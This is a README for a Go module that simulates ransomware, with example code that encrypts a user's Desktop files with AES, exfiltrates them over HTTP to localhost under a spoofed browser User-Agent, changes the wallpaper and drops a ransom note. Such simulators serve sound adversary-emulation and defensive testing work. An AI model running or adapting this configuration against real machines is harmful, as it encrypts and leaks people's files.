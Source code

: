 # Ransimware

<a href="https://www.buymeacoffee.com/mjwhitta">🍪 Buy me a cookie</a>

[![Go Report Card](https://goreportcard.com/badge/gitlab.com/mjwhitta/ransimware)](https://goreportcard.com/report/gitlab.com/mjwhitta/ransimware)

## What is this?

This Go module allows you to simulate ransomware.

## How to install

Open a terminal and run the following:

```
$ go get -u gitlab.com/mjwhitta/ransimware
```

## Usage

Minimal example:

```
package main

import (
    "os"
    "path/filepath"

    rw "gitlab.com/mjwhitta/ransimware"
)

func main() {
    var e error
    var home string
    var sim *rw.Simulator

    // Try to get home directory
    if home, e = os.UserHomeDir(); e != nil {
        panic(e)
    }

    // Create simulator with 32 worker threads
    sim = rw.New(32)

    // Since no encrypt function is defined, the default behavior is
    // to do nothing

    // Since no exfil function is defined, the default behavior is to
    // do nothing

    // Since no notify function is defined, the default behavior is to
    // do nothing

    // Target the user's Desktop folder
    if e = sim.Target(filepath.Join(home, "Desktop")); e != nil {
        panic(e)
    }

    // Run the simulator
    if e = sim.Run(); e != nil {
        panic(e)
    }
}
```

More complex example:

```
package main

import (
    "os"
    "path/filepath"
    "strings"

    rw "gitlab.com/mjwhitta/ransimware"
)

func main() {
    var e error
    var home string
    var sim *rw.Simulator

    // Try to get home directory
    if home, e = os.UserHomeDir(); e != nil {
        panic(e)
    }

    // Create simulator with 32 worker threads
    sim = rw.New(32)

    // Set encryption method to AES using provided helper function
    sim.Encrypt = rw.AESEncrypt("password")

    // Set exfil method to be HTTP using provided helper function
    sim.Exfil = rw.HTTPExfil(
        "http://localhost:8080",
        map[string]string{
            "User-Agent": strings.Join(
                []string{
                    "Mozilla/5.0 (Windows NT 10.0; Win64; x64)",
                    "AppleWebKit/537.36 (KHTML, like Gecko)",
                    "Chrome/84.0.4147.105 Safari/537.36",
                },
                " ",
            ),
        },
    )

    // Notify user by changing wallpaper and leaving a ransom note,
    // using the provided helper functions
    sim.Notify = func() error {
        rw.WallpaperNotify(
            "C:\\Windows\\Temp\\ransom.png",
            rw.DefaultPNG,
        )()

        rw.RansomNote(
            filepath.Join(home, "Desktop", "ransomnote.txt"),
            []string{"This is a ransomware simulation."},
        )()

        return nil
    }

    // Target the user's Desktop folder
    if e = sim.Target(filepath.Join(home, "Desktop")); e != nil {
        panic(e)
    }

    // Run the simulator
    if e = sim.Run(); e != nil {
        panic(e)
    }
}
```

## Links

- [Source](https://gitlab.com/mjwhitta/ransimware)

## TODO

- Provide more helper functions
    - FTP exfil
    - Websocket exfil
